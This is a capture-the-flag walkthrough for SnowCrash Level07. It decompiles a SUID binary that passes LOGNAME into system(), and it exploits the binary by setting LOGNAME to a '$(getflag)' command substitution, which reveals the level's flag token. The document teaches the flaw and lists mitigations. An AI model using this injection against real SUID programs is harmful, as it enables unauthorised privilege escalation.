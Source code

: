 # SnowCrash Level07 Walkthrough

## Overview

Level07 presents a classic **command injection vulnerability** through environment variable manipulation. The target executable uses user-controlled input from the `LOGNAME` environment variable in an unsafe manner.

## Initial Analysis

In the home directory, we find an executable file named `level07`. Let's examine its structure and permissions:

```bash
level07@SnowCrash:~$ ls -la level07
-rwsr-s---+ 1 flag07 level07 8805 Mar  5  2016 level07
```

The file has the SUID bit set, meaning it will execute with the privileges of the `flag07` user.

## Reverse Engineering

Decompiling the executable reveals the following C code structure:

```c
int32_t main(int argc, char** argv, char** envp)
{
    gid_t eax = getegid();
    uid_t eax_1 = geteuid();
    setresgid(eax, eax, eax);
    setresuid(eax_1, eax_1, eax_1);
    
    char* var_1c = nullptr;
    asprintf(&var_1c, "/bin/echo %s ", getenv("LOGNAME"));
    return system(var_1c);
}
```

## Vulnerability Analysis

The vulnerability lies in this line:
```c
asprintf(&var_1c, "/bin/echo %s ", getenv("LOGNAME"));
```

The program:
1. Retrieves the `LOGNAME` environment variable
2. Concatenates it directly into a command string without sanitization
3. Passes the resulting string to `system()` for execution

This creates a **command injection** vulnerability where we can control what gets executed.

## Exploitation Strategy

Since the `LOGNAME` environment variable is directly interpolated into the command, we can inject a command substitution using the `$()` syntax.

### Step 1: Set the Malicious Environment Variable

```bash
level07@SnowCrash:~$ export LOGNAME='$(getflag)'
```

This will cause the command to become:
```bash
/bin/echo $(getflag) 
```

When executed, the shell will:
1. First execute `getflag` (which should return the flag for this level)
2. Pass the output as an argument to `echo`
3. Display the flag

### Step 2: Execute the Vulnerable Program

```bash
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

## Success!

The command injection was successful, and we obtained the flag: `fiumuikeil55xe9cu4dood66h`

## Key Learning Points

1. **Environment Variable Injection**: User-controlled environment variables should never be used directly in system commands
2. **Command Substitution**: The `$()` syntax allows executing commands within other commands
3. **SUID Privilege Escalation**: The SUID bit allowed us to execute `getflag` with elevated privileges
4. **Input Sanitization**: Always validate and sanitize user input, including environment variables

## Mitigation

To prevent this vulnerability, the code should:
- Validate the `LOGNAME` variable content
- Use parameterized commands instead of string concatenation
- Escape or sanitize special shell characters
- Consider using `execv()` family functions instead of `system()`

## Next Steps

With the flag `fiumuikeil55xe9cu4dood66h`, we can now proceed to Level08 of the SnowCrash challenge.